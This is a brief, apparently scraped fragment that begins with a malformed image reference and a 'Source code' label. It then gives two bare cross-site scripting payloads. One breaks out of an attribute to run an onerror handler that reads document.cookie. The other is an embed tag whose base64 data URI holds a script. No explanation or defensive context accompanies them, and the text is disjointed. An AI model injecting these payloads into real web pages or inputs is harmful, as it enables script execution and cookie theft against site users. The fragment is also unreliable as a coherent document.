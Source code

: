  "'><img src=x onerror=alert(document.cookie)>
 
 <embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4="></embed>
